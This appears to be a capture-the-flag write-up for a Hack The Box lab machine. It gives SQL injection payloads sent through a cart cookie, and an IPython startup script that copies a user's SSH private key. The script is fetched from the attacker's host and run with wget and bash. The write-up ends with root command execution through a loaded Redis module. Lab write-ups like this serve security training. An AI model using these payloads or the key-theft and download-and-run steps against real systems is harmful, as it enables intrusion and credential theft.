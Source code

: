 Recon:
            nmap -A -F 10.10.11.172
                 22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
                 80/tcp  open  http     nginx 1.18.0
                 443/tcp open  ssl/http nginx 1.18

            Domain && subdomain

                          http://shared.htb
                          http://checkout.shared.htb
                                    cookie custom_cart=%7B%2253GG2EF8%22%3A%223%22%7D
                                    decode cookie value custom_cart={"2E6E8GXJ":"1"}

Intial Foothold: 
                       union based sql injection
                      #{"2E6E8GXJ'AND 1=2 UNION SELECT 1,(user()),3-- -":"1"}  // url enocde and burp
                        username = checkout@localhost

                      #{"2E6E8GXJ'AND 1=2 UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -":"1"}
                       information_schema,checkout

                      #{"2E6E8GXJ'AND 1=2 UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = 'checkout'),3-- -":"1"}
                        user,product

                      #{"2E6E8GXJ'AND 1=2 UNION SELECT 1,(select group_concat(COLUMN_NAME) from INFORMATION_SCHEMA.COlUMNS where TABLE_SCHEMA = 'checkout'),3-- -":"1"}
                        id,username,password,id,code,price

                      #{"2E6E8GXJ'AND 1=2 UNION SELECT 1,(select group_concat(username) from checkout.user),3-- -":"1"}
                        james_mason

                      #{"2E6E8GXJ'AND 1=2 UNION SELECT 1,(select group_concat(password) from checkout.user),3-- -":"1"}
                        fc895d4eddc2fc12f995e18c865cf273:Soleil101 
 
                    james_mason:Soleil101
                    
Foothold:
              ssh james_mason@10.10.11.172
              find another user named dan_smith > pspy64 > ipython
              exploit on ipython https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x

         created a script #!/bin/bash
                         mkdir -m 777 profile_default
                         mkdir -m 777 profile_default/startup
                         echo "import os; os.system('cat ~/.ssh/id_rsa > /tmp/key')" > profile_default/startup/foo.py
                         execute it in /opt/script_reviews wget http://10.10.14.12/script.sh  && chmod +x script.sh && bash script.sh

Privillage Esclation:
                       ssh via id_rsa
                       linpeas.sh > redis server running as root
                       also find a file in /usr/local/bin/redis_connector_dev

              dowl the file #scp -i id_rsa dan_smith@10.10.11.172:/usr/local/bin/redis_connector_dev redis_file
                              redis_connector_dev  

              run it locally and listen to default port we get the username and password auth:F2WHqJUz2WEz=Gqq
                  https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis 
                  https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

              run make command in cloned dir.
                  cp module.so to machin: scp module.so james_mason@10.10.11.172:/home/james_mason [move it to dan_smith]
                  run redis-cli
                               >auth F2WHqJUz2WEz=Gqq
                               >MODULE LOAD /home/dan_smith/module.so
                               >system.exec "id"
   

Pwned.!!!